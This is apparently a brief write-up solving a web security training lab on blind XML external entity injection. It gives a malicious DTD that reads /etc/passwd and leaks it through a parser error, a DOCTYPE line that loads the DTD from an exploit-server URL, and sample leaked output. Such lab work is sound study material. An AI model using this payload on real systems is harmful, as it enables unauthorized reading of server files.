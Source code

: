 # Lab: Exploiting blind XXE to retrieve data via error messages

Open the exploit server and create a malicious dtd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Copy the url of the dtd and insert it into the entity definition: `<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acca1f111e1a4988c0f2758a017300b2.web-security-academy.net/exploit"> %xxe;]>`

Intercept a request for the check stock functionality and add the entity into the XML before forwarding the request. This returns something like the following:
```
XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<etc> (No such file or directory)
```

This solves the lab.